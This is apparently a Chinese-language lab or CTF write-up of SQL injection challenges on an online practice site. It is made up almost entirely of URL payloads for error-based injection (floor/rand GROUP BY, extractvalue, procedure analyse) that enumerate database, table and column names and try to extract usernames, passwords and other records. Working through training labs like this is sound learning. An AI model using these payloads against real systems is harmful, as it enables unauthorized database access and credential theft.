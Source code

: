 ```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=6 procedure analyse(extractvalue(rand(),concat(0x3a,(select group_concat(username,password) from user))),1)%23
&num=100 %23
```
# 图片宽字节注入

在页面上看不出显示的结果，要在burpsuite上查看
网上说是图片宽字节注入，一直抓不到图片的数据包，只好作罢

# 报错注入
[一些常见的报错注入]( http://blog.csdn.net/mvcandroid/article/details/73995898 )
报错注入语句
```bash
select count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a
```
得到数据库名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
得到表名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php
?username=admin' union select count(*),concat(0x3a,0x3a,(select distinct table_name from information_schema.columns where table_schema=database() limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23

```
得到字段名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name=0x6c6f67 limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
得到表中有多少条数据
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select count(*) from motto),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
脱裤失败
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php
?username=admin' union select count(*),concat(0x3a,0x3a,(select username from motto limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
尝试别的语句
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and extractvalue(1, concat(0x3a,(SELECT distinct concat(0x3a,username,0x3a,motto,0x3a,0x3a) FROM motto limit 3,1)))%23
```
